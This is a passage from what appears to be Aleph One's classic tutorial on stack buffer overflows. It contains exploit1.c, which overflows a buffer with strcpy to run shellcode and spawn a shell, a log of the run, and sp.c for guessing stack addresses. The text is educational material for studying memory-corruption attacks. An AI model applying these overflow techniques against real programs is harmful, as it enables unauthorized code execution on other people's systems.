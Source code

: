 char large_string[128];

void main() {
  char buffer[96];
  int i;
  long *long_ptr = (long *) large_string;

  for (i = 0; i < 32; i++)
    *(long_ptr + i) = (int) buffer;

  for (i = 0; i < strlen(shellcode); i++)
    large_string[i] = shellcode[i];

  strcpy(buffer,large_string);
}
------------------------------------------------------------------------------

------------------------------------------------------------------------------
[aleph1]$ gcc -o exploit1 exploit1.c
[aleph1]$ ./exploit1
$ exit
exit
[aleph1]$
------------------------------------------------------------------------------

   What we have done above is filled the array large_string[] with the
address of buffer[], which is where our code will be.  Then we copy our
shellcode into the beginning of the large_string string.  strcpy() will then
copy large_string onto buffer without doing any bounds checking, and will
overflow the return address, overwriting it with the address where our code
is now located.  Once we reach the end of main and it tried to return it
jumps to our code, and execs a shell.

   The problem we are faced when trying to overflow the buffer of another
program is trying to figure out at what address the buffer (and thus our
code) will be.  The answer is that for every program the stack will
start at the same address.  Most programs do not push more than a few hundred
or a few thousand bytes into the stack at any one time.  Therefore by knowing
where the stack starts we can try to guess where the buffer we are trying to
overflow will be.  Here is a little program that will print its stack
pointer:

sp.c
------------------------------------------------------------------------------
unsigned long get_sp(void) {
   __asm__("movl %esp,%eax");
}
void main() {
  printf("0x%x\n", get_sp());
}
------------------------------------------------------------------------------

------------------------------------------------------------------------------
[aleph1]$ ./sp
0x8000470
[aleph1]$
------------------------------------------------------------------------------

